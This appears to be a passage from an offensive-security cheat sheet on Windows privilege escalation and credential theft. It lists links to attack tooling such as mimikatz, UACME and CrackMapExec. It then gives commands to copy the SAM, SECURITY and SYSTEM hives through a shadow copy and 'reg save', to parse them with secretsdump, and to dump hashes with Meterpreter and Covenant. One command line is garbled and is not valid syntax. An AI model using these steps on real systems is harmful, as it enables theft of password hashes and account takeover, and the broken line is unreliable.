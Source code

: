 ### Resources
- https://github.com/GhostPack/SharpUp
- https://github.com/rasta-mouse/Watson
- https://github.com/itm4n/PrivescCheck
- https://rohnspowershellblog.wordpress.com/2013/03/19/viewing-service-acls/
- https://github.com/hfiref0x/UACME


### Credentials

#### Katz

##### Resources
- https://github.com/gentilkiwi/mimikatz
- https://github.com/gentilkiwi/kekeo
- https://github.com/S3cur3Th1sSh1t/PowerSharpPack
- https://github.com/G0ldenGunSec/SharpSecDump
- https://github.com/itm4n/PPLdump
- https://github.com/cube0x0/SharpMapExec
- https://github.com/cube0x0/MiniDump
- https://github.com/byt3bl33d3r/CrackMapExec

##### SAM

Manual

```
# shadowcopy
cmd> wmic shadowcopy call create Volume='C:\'
cmd> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\users\vault.local\Downloads\sam
cmd> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\security C:\users\vault.local\Downloads\security

# local
reg vaultalocal HKLM\sam C:\users\vault.local\Downloads\sam
reg save HKLM\system C:\users\vault.local\Downloads\system
```

Secretsdump parse

```
# secretsdump.py -sam sam -system system LOCAL
secretsdump.py -sam sam -system system -security security LOCAL
```

Meterp

```
hashdump
```

Covenant

```
> SamDump
```
